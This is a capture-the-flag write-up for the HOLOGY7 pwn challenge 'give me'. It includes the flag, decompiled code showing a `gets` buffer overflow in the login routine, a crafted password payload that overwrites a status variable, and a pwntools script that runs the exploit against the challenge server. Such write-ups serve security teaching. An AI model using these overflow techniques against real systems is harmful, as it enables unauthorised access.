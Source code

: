 ```yaml
---
icon: binary
---
```


# give me

### Challenge Description

Author : anakmamah

Maafkan soal yang gampang ini 🙏🏻, probset nya skill issue

### Flag

`HOLOGY7{1ts_4lw4ys_0v3rfl0w_Vu1n_h3R3}`

***

### Analysis and Solution

We are given an executable, so we need to decompile it using Ghidra. From the decompilation results, we are given a menu application where we can register, login, view profile, logout and exit.

```c
  // snip
  do {
    while( true ) {
      puts("\n--- Menu ---");
      puts("1. Register");
      puts("2. Login");
      puts("3. View Profile");
      puts("4. Logout");
      puts("5. Exit");
      printf("Choose an option: ");
      __isoc99_scanf(&DAT_00102327,&local_38);
      getchar();
      if (local_38 < 6) break;
      if (local_38 == 69) {
        add_credits(&local_30,local_34);
      }
      else {
switchD_001016e4_caseD_5:
        puts("Invalid choice. Try again.");
      }
    }
    // snip
```

From the `login` function, we can see a `gets` function called to get the password. Which means this function is vulnerable to a buffer overflow attack. From the code flow, we can infer if our username is `A` and our password is `s3cr3tpass` and our `local_c` value is `yek`, then we can access a new feature to add credits.

```c
void login(char *param_1,undefined4 *param_2,undefined4 *param_3)

{
  int iVar1;
  char local_38 [44];
  uint local_c;
  
  local_c = 0;
  puts("Enter your username: ");
  fgets(param_1,8,stdin);
  puts("Enter your password: ");
  gets(local_38);
  printf("You entered: %s\n",local_38);
  printf("Your status is: %d\n",(ulong)local_c);
  iVar1 = strcmp(local_38,"s3cr3tpass");
  if (iVar1 == 0) {
    puts("Login successful!");
    *param_2 = 1;
    if ((local_c == 0x79656b) && (*param_1 == 'A')) {
      *param_3 = 1;
      puts("Feature unlocked: You can now add credits!");
    }
    else {
      puts("Feature locked: You cannot add credits yet.");
    }
    return;
  }
  puts("Invalid password. Try again.");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Since the program does not change the `local_c` variable, we need to leverage a buffer overflow to overwrite the `local_c` variable. To do that, we need to put in `s3cr3tpass`  where this is the value we need to have to pass the `strcmp` check. Then we need to concatenate 34 null bytes, where 34 is the array size of `local_38` subtracted by the length of `s3cr3tpass`. The null bytes acts as the string termination character while also filling up our buffer. Then we need to concatenate `yek` to pass the `local_c` check. But since the payload will be interpreted using little-endian, we will concatenate `key` instead.

```python
# Password Payload
b"s3cr3tpass" + b"\x00"*34+ b"key"
```

After entering the username and password, we should be allowed to access the new feature. From the menu code, we can access the `add_credits` function by entering `69` as the option on the menu (nice).

From the `add_credits` code, we need to input the value of `calculate_value()` to get to the `congrats()` function. The value of `calculate_value()` is simply `3735991189`. After entering the value, the `congrats()` function will return our flag.

```c
void add_credits(uint *param_1,int param_2)

{
  int local_10;
  uint local_c;
  
  if (param_2 == 0) {
    puts("Access denied! You need to unlock this feature first.");
  }
  else {
    puts("Wow, how did u find me :O");
    printf("Enter the amount of credits to add: ");
    __isoc99_scanf(&DAT_0010225d,&local_10);
    *param_1 = local_10 + *param_1;
    printf("Credits added! Total credits: %d\n",(ulong)*param_1);
    local_c = calculate_value();
    if (local_c == *param_1) {
      puts(" Accessing secret...");
      congrats();
    }
  }
  return;
}
```

### Solver Script

```python
from pwn import *
import re

r = remote('103.175.221.20', 3333)
r.recvuntil(b"option: ")
r.sendline(b"2")
r.recvuntil(b"username: \r\n")
r.sendline(b"A")
r.recvuntil(b"password: \r\n")
r.sendline(b"s3cr3tpass"+b"\x00"*34+b"key")
r.recvuntil(b"option: ")
r.sendline(b"69")
r.recvuntil(b"add: ")
r.sendline(b"3735991189")

print(re.findall(r"HOLOGY7{.*}", r.recv().decode())[0])
```
